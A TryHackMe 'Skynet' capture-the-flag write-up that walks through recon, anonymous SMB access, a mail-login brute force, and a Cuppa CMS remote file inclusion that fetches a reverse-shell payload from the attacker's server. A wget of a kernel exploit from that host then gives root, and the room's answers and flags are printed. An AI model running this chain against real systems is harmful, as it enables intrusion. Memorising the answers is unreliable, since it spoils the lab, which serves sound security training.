




## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```shell-session
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing an `nmap` scan to check for open ports and services:
```shell-session
$ sudo nmap -sS -Pn -vv --top-ports 2000 -oN nmap_scan.txt 10.10.138.207

PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
110/tcp open  pop3         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
143/tcp open  imap         syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

# Performing a service scan:
$ sudo nmap -sV -vv -p22,80,110,139,143,445 -oN service_scan.txt 10.10.138.207

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        syn-ack ttl 63 Dovecot pop3d
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 63 Dovecot imapd
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There's a http service running on port 80. If we visit the site using a browser, we're shown a simple search engine:


Using `gobuster` to enumerate any potentially interesting directories:
```shell-session
$ gobuster dir -u http://10.10.138.207 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 32 -x txt,php,sh,py,phtml,html
...
...

```

From the scan, the `/squirrelmail` location is accessible:


We'll hold onto this information for later use...


Using `enum4linux` to enumerate the samba service running on target:
```shell-session
$ enum4linux  10.10.138.207

...
[+] Got domain/workgroup name: WORKGROUP
...
[+] Server 10.10.138.207 allows sessions using username '', password ''
...
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

...
[+] Attempting to map shares on 10.10.138.207                                                                                                                                                
                                                                                                                                                                                             
//10.10.138.207/print$  Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                            
//10.10.138.207/anonymous       Mapping: OK Listing: OK Writing: N/A
//10.10.138.207/milesdyson      Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                               
                                                                                                                                                                                             
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                                                                                   
//10.10.138.207/IPC$    Mapping: N/A Listing: N/A Writing: N/A

...
...
```

Since the samba service allows anonymous logins, we can try to log into the service using `smbclient`:
```shell-session
# Using an empty password...
$ smbclient //10.10.138.207/anonymous
smb: \> ls
  .                                   D        0  Thu Nov 26 19:34:00 2020
  ..                                  D        0  Tue Sep 17 11:50:17 2019
  attention.txt                       N      163  Wed Sep 18 07:34:59 2019
  logs                                D        0  Wed Sep 18 09:12:16 2019

                9204224 blocks of size 1024. 5827560 blocks available
smb: \> get attention.txt 
getting file \attention.txt of size 163 as attention.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 09:12:16 2019
  ..                                  D        0  Thu Nov 26 19:34:00 2020
  log2.txt                            N        0  Wed Sep 18 09:12:13 2019
  log1.txt                            N      471  Wed Sep 18 09:11:59 2019
  log3.txt                            N        0  Wed Sep 18 09:12:16 2019

                9204224 blocks of size 1024. 5827560 blocks available

smb: \logs\> get log1.txt
get logetting file \logs\log1.txt of size 471 as log1.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \logs\> get log2.txt
getgetting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \logs\> get log3.txt
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \logs\> exit
```

Inspecting the contents of `attention.txt`:
```shell-session
$ cat attention.txt         
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

Since we have a username as well as a password-list, we can use burpsuite's intruder to brute force the squirrelmail login:


The credentials for accessing the mail-server. (`milesdyson:cyborg007haloterminator`).

> What is Miles password for his emails?
>
> Answer: `cyborg007haloterminator`

One of the emails contains the SMB password for the user `milesdyson`.
```txt
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using this password, we can now log into the smb service as miles and get more information to exploit further:
```shell-session
$ smbclient -U milesdyson //10.10.19.186/milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                                             D        0  Tue Sep 17 13:35:47 2019
  ..                                                            D        0  Wed Sep 18 08:21:03 2019
  Improving Deep Neural Networks.pdf                            N  5743095  Tue Sep 17 13:35:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 13:35:14 2019
  Convolutional Neural Networks-CNN.pdf                         N 19655446  Tue Sep 17 13:35:14 2019
  notes                                                         D        0  Tue Sep 17 13:48:40 2019
  Neural Networks and Deep Learning.pdf                         N  4304586  Tue Sep 17 13:35:14 2019
  Structuring your Machine Learning Project.pdf                 N  3531427  Tue Sep 17 13:35:14 2019

                9204224 blocks of size 1024. 5831528 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 13:48:40 2019
  ..                                  D        0  Tue Sep 17 13:35:47 2019

  ...
  important.txt                       N      117  Tue Sep 17 13:48:39 2019
  ...

smb: \notes\> get important.txt 
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\> exit
```

The contents of the retrieved: `important.txt` file are:
```txt
$ cat important.txt             

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

> What is the hidden directory?
>
> Answer: `/45kra24zxs28v3yd`

## Gaining Access

Visiting the hidden directory takes us to the following page:


Using `ffuf` to search for more directories within this one, we quickly find a result:
```shell-session
$ ffuf -u http://10.10.19.186/45kra24zxs28v3yd/FUZZ -t 64 -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
...
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 863ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 863ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3027ms]
administrator           [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 474ms]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16, Duration: 480ms]
```


visiting the `administrator` directory takes us to a login page:


Using `searchsploit` to search for an exploit yields the following results:
```shell-session
$ searchsploit cuppa                               
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclu | php/webapps/25971.txt
------------------------------------------------------------ ---------------------------------
```

> What is the vulnerability called when you can include a remote file for malicious purposes?
>
> Answer: remote file inclusion

According to the exploit, we can use the `/cuppa/alerts/alertConfigField.php` file and supply it with `urlConfig` parameter to exploit the RFI vulnerability. Starting a http server as well as a listener on our machine, we can remotely include a reverse shell payload to get a working shell:
```shell-session
$ python3 -m http.server 4443
Serving HTTP on 0.0.0.0 port 4443 (http://0.0.0.0:4443/) ...

# Setting up the listener:
$ rlwrap -cAr nc -lvnp 4446

```

Accessing the URL: `http://10.10.19.186/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.5.201:4443/payload.php` gives us a reverse shell. Using this, we can get the user flag:
```shell-session
www-data@skynet:/$ cd /home/milesdyson/
www-data@skynet:/home/milesdyson$ ls
backups
mail
share
user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

> What is the user flag?
>
> Answer: `7ce5c2109a40f958099283600a9ae807`

## Privilege Escalation

```shell-session
www-data@skynet:/home/milesdyson$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

For this challenge, I'll be making use of [CVE-2017-16995](https://nvd.nist.gov/vuln/detail/CVE-2017-16995), and [this exploit](https://www.exploit-db.com/exploits/45010)

```shell-session
www-data@skynet:/home/milesdyson$ cd /tmp
www-data@skynet:/tmp$ wget http://10.11.5.201:4443/45010.c
...
2022-12-09 13:50:50 (28.2 KB/s) - '45010.c' saved [13728/13728]

www-data@skynet:/tmp$ gcc 45010.c
www-data@skynet:/tmp$ ./a.out
```

The shell is quite unstable now, but it doesn't matter, we can still execute commands and get the root flag:
```shell-session
whoami
root
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

> What is the root flag?
>
> Answer: `3f0372db24753accc7179a282cd6a949`


## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Skynet](https://tryhackme.com/room/skynet)
